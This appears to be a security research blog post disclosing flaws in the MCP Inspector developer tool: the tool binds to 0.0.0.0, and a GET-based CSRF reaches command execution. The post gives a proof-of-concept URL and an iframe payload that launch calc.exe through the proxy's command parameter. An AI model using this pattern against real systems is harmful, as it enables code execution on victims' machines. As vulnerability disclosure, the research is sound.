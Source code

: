 ## Inspector Proxy

The first step in hacking something is understanding it (foreplay for nerdz lol), so we went and set up a simple MCP server with the [python-sdk](https://github.com/modelcontextprotocol/python-sdk?tab=readme-ov-file#quickstart ""), following its _Quickstart_ guide as regular developers would. RTFM bois. It consists of creating a simple server like this:

```hljs py
from mcp.server.fastmcp import FastMCP

# Create an MCP server
mcp = FastMCP("Demo")

# Add an addition tool
@mcp.tool()
def add(a: int, b: int) -> int:
    """Add two numbers"""
    return a + b
```

We're then told to either install it into an LLM or test it with the "MCP Inspector":

```hljs shell
$ mcp dev server.py
Starting MCP inspector...
⚙️ Proxy server listening on port 6277
🔍 MCP Inspector is up and running at http://127.0.0.1:6274 🚀
```

It opens up a simple interface on [http://127.0.0.1:6274](http://127.0.0.1:6274/ "") through which you can call tools, list resources, etc. Basically, anything you'd want to play around with your MCP server. Pretty cool, huh?

![MCP Inspector interface showing a tool being called with a result](https://blog.jaisal.dev/assets/mcp-inspector.png)

It works by connecting either to a local process via STDIO (terminal input/output), or through SSE (Server-Sent Events, an HTTP API). This sure is a pretty powerful tool, I hope no one else can access it... ( _foreshadowing (?)_)

### 0.0.0.0 bind

For some reason, both MCP servers and the inspector listen on 0.0.0.0 instead of 127.0.0.1, contrary to what you would expect from the above terminal output; misinformation much? This is bad for pretty obvious reasons, you now rely on your firewall/NAT fully, but apparently, there is "no significant security impact".

### GET-based CSRF to Command Execution

If we carefully look at the requests that are sent while interacting with the Inspector, one especially stands out:

```hljs http
GET /sse?transportType=stdio&command=mcp&args=run+server.py&env=... HTTP/1.1
Host: localhost:6277
...
```

A GET-request that runs a local system command? What if we just copy the URL and visit it in our browser?

[http://localhost:6277/sse?transportType=stdio&command=calc.exe](http://localhost:6277/sse?transportType=stdio&command=calc.exe "")

Okay uhmmm... I'm getting flashbacks.. why is my calculator open? Not only can you phish someone by clicking on the above link, but an attacker can even load the URL from any site in something like an `<iframe>` to make the request completely in the background:

```hljs html
<iframe src="http://127.0.0.1:6277/sse?transportType=stdio&command=calc.exe">
```